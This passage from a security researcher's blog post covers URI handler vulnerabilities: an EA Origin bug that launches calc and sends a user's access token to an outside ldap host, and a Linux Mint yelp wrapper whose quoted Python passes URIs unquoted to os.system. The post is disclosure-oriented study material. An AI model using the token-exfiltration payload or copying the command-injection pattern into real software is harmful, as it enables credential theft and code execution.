 For example, you could pop calc with
`Origin.client.desktopServices.asyncOpenUrl("calc.exe")`. Unfortunately, this is
a limitation of these functions. You cannot pass parameters to them. The same
limitation was in the Nord VPN bug with the `Process.Start(string)` overload. I
have spent quite some time trying to break out to no avail (future blog post?).

**Update 2021-04-29:** It seems like we can pass remote `jar` files as a UNC
path to get around this limitation. See section
[Windows 10 19042][positive-jar-trick] in Positive Security's article linked
above.

However, the payload is running in a JavaScript context and you have access to
things like user tokens. The authors found a clever way of exfiltrating user
information such as access tokens using the `ldap` scheme like
`"ldap://safe.tld/o="+Origin.user.accessToken()+",c=UnderDog"`.

As the [Ninth Doctor][ninth-dr] (best doctor) would have said, fantastic!

[ninth-dr]: https://en.wikipedia.org/wiki/Ninth_Doctor

## Linux Mint 18.3-19.1 'yelp' Command Injection by @b1ack0wl
[@b1ack0wl][b1ack0wl-twitter] pointed me to this bug in the URI handler for
Yelp. I realized I have only talked about Windows and it might imply that URI
bugs only happen on Windows. Here, we can see that it's possible to have a
similar bug on Linux.

[b1ack0wl-twitter]: https://twitter.com/b1ack0wl

[The URI handler for yelp][mint-yelp-poc] is run like `Exec=yelp %u`. Think of
it as `app.exe %1` without quotes. In this case, the URI is passed (note the
lack of quotes) directly to the following Python file:

```python
#!/usr/bin/python

import os
import sys

if (len(sys.argv) > 1):
    args = ' '.join(sys.argv[1:])
    if ('gnome-help' in args) and not os.path.exists('/usr/share/help/C/gnome-help'):
        os.system ("xdg-open http://www.linuxmint.com/documentation.php &")
    elif ('ubuntu-help' in args) and not os.path.exists('/usr/share/help/C/ubuntu-help'):
        os.system ("xdg-open http://www.linuxmint.com/documentation.php &")
    else:
        os.system ("/usr/bin/yelp %s" % args)  # uh oh
else:
    os.system ('/usr/bin/yelp')
```

If the URI string does not contain `gnome-help` and `ubuntu-help`, it's passed
to a vulnerable `os.System` invocation.

### Browsers Escaping Characters
Now, browser escaping comes into play. It is something we have not had to deal
with in our reviewed bugs, yet. Browsers encode/escape specific characters
before passing them on.
[Exploiting Custom Protocol Handlers in Windows][exploiting-uri] in the
references section has a section about encoding/bypassing and you can find a few
more on the web.


[positive]: https://positive.security/blog/url-open-rce
[eric-app-protocols]: https://textslashplain.com/2019/08/29/web-to-app-communication-app-protocols/
[eric-lawrence-twitter]: https://twitter.com/ericlaw
[procmon-link]: https://docs.microsoft.com/en-us/sysinternals/downloads/procmon
[urlprotocolview-nirsoft]: https://www.nirsoft.net/utils/url_protocol_view.html
[positive-jar-trick]: https://positive.security/blog/url-open-rce#windows-10-19042
[cyku-twitter]: https://twitter.com/cyku_tw
[cyku-nord-bug]: https://hackerone.com/reports/1001255
[process-start-string]: https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process.start?view=net-5.0#System_Diagnostics_Process_Start_System_String_
[ea-security]: https://ea.com/security
[zer0pwn-twitter]: https://twitter.com/zer0pwn
[fun-with-uri]: https://zero.lol/2019/05/22/fun-with-uri-handlers
[zdi-qt]: https://www.thezdi.com/blog/2019/4/3/loading-up-a-pair-of-qt-bugs-detailing-cve-2019-1636-and-cve-2019-6739
[origin-xss-rce]: https://zero.lol/2019/05/13/xss-to-rce
[lewis-angular-talk]: https://www.slideshare.net/LewisArdern/so-you-thought-you-were-safe-using-angularjs-think-again
[lewis-twitter]: https://twitter.com/LewisArdern
[playstation-now-rce-h1]: https://hackerone.com/reports/873614
[mint-yelp-poc]: https://github.com/b1ack0wl/linux_mint_poc
[chromium-785809]: https://bugs.chromium.org/p/chromium/issues/detail?id=785809
[chromium-785809-22]: https://bugs.chromium.org/p/chromium/issues/detail?id=785809#c22
[chromium-785809-21]: https://bugs.chromium.org/p/chromium/issues/detail?id=785809#c22
[ifs-docs]: https://bash.cyberciti.biz/guide/$IFS
[jonaslyk-twitter]: https://twitter.com/jonasLyk
[jonaslyj-tweet]: https://twitter.com/jonasLyk/status/1372952003719143428
[subtle-raymond]: https://devblogs.microsoft.com/oldnewthing/20060509-30/?p=31263
[james-twitter]: https://github.com/tyranid
[path-conversion]: https://googleprojectzero.blogspot.com/2016/02/the-definitive-guide-on-win32-to-nt.html
[mirc-uri-rce]: https://proofofcalc.com/cve-2019-6453-mIRC/
[jeff-twitter]: https://twitter.com/jeffssh
[teamviewer-unquoted]: https://jeffs.sh/CVEs/CVE-2020-13699.txt
[rgod-livejournal]: http://retrogod.altervista.org/
[electron-url]: https://www.electronjs.org/
[cef-url]: https://bitbucket.org/chromiumembedded/cef/src
[rgod-electon-zdi]: https://www.thezdi.com/blog/2018/12/18/top-5-day-two-electron-boogaloo-a-case-for-technodiversity
[gpu-launcher-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#414
[disable-gpu-sandbox-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#118
[no-sandbox-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#463
[electron-protocol-handler-fix]: https://www.electronjs.org/blog/protocol-handler-fix
[ubi-rce]: https://thewhiteh4t.github.io/2018/11/16/ubisoft-uplay-rce-exploit.html
[exodus-rce]: https://hackernoon.com/exploiting-electron-rce-in-exodus-wallet-d9e6db13c374
[type-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#507
[chromium-histogram-old-src]: https://chromium.googlesource.com/aosp/platform/external/libchrome/+/refs/heads/stabilize-8530.93.B/base/metrics/histogram_base.cc#136
[chromium-histogram-current-src]: https://chromium.googlesource.com/aosp/platform/external/libchrome/+/refs/heads/master/base/metrics/histogram_base.cc
[luke-calc-hta]: https://github.com/arntsonl/calc_security_poc/blob/master/hta/calc.hta
[directories-special-files]: https://docs.microsoft.com/en-us/windows/win32/fileio/naming-a-file#:~:text=Note%20that%20directory%20names%20are%20stored%20by%20the%20file%20system%20as%20a%20special%20type%20of%20file,
[ms-hta-docs]: https://docs.microsoft.com/en-us/previous-versions//ms536496(v=vs.85)
[expand-env-var]: https://docs.microsoft.com/en-us/dotnet/api/system.environment.expandenvironmentvariables
[flag-descriptions-rc]: https://chromium.googlesource.com/chromium/src/+/master/chrome/browser/flag_descriptions.cc
[browser-subprocess-path-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#32
[spotify-advisory]: https://www.zerodayinitiative.com/advisories/ZDI-18-280/
[amazon-music-advisory]: https://www.zerodayinitiative.com/advisories/ZDI-18-215/
[urlprotocolview-nirsoft]: https://www.nirsoft.net/utils/url_protocol_view.html
[understanding-protocols]: https://docs.microsoft.com/en-us/archive/blogs/ieinternals/understanding-protocols
[exploiting-uri]: https://web.archive.org/web/20200525025338/https://www.vdoo.com/blog/exploiting-custom-protocol-handlers-in-windows
[provoking-windows]: https://www.slideshare.net/JeremyBrown37/provoking-windows-dragoncon-2016-253308525
[uri-use-abuse-slides]: https://www.blackhat.com/presentations/bh-europe-08/McFeters-Rios-Carter/Presentation/bh-eu-08-mcfeters-rios-carter.pdf
[uri-use-abuse-wp]: https://www.blackhat.com/presentations/bh-europe-08/McFeters-Rios-Carter/Whitepaper/bh-eu-08-mcfeters-rios-carter-WP.pdf
[codecolorist-twitter]: https://twitter.com/CodeColorist
[shellexecute-codecolorist]: https://blog.chichou.me/2018/01/28/electron-s-bug-shellexecute-to-blame/
[juho-paper]: https://infocondb.org/con/disobey/disobey-2020/appsetasdefaultrceclient-electron-scheme-handlers-and-stealthy-security-patches
[juho-twitter]: https://twitter.com/jupenur